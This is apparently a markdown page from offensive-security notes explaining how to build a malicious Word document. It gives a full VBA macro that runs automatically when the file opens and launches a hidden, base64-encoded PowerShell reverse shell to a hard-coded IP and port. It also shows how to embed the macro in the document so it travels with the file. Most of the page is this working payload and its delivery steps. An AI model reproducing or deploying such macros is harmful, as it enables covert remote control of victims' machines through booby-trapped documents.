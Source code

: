 
# Client side attacks - .doc macros


Problem:
We need to make a .doc document with a macro that creates a reverse shell.

To do this, first use [powershell-UTF16LE.py](...) to generate a an encoded powershell reverse shell.
now, use [string-shortener.py](./string-shortener.py) to split the string into multiple assignments (due to a funky limitation in VBA).

Now, insert the result into the following:


```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    
    Dim Str As String
    
    Str = Str + "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgA"
    Str = Str + "D0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0"
    Str = Str + "ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAa"
    Str = Str + "QBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMAAwAC4AMQA"
    Str = Str + "wACIALAAgADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgA"
    Str = Str + "CQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACk"
    Str = Str + "AOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAM"
    Str = Str + "AAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQA"
    Str = Str + "oACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkA"
    Str = Str + "CgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4"
    Str = Str + "ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZ"
    Str = Str + "ABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAA"
    Str = Str + "tAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlA"
    Str = Str + "HgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEc"
    Str = Str + "AZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAI"
    Str = Str + "AAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQB"
    Str = Str + "lAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0A"
    Str = Str + "C0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGs"
    Str = Str + "AMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAU"
    Str = Str + "wAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAA"
    Str = Str + "iAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbA"
    Str = Str + "HQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEM"
    Str = Str + "ASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAY"
    Str = Str + "gBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdAB"
    Str = Str + "lACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkA"
    Str = Str + "GIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGE"
    Str = Str + "AbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQAL"
    Str = Str + "gBDAGwAbwBzAGUAKAApAA=="


    CreateObject("Wscript.Shell").Run Str
End Sub
```

Now it is *IMPORTANT* to save the macro _on the document_ rather than in the projects of the MS Office on the machine.
So when going into MS Word, choose --> View --> Macros --> choose your document in the dropdown --> choose "create".
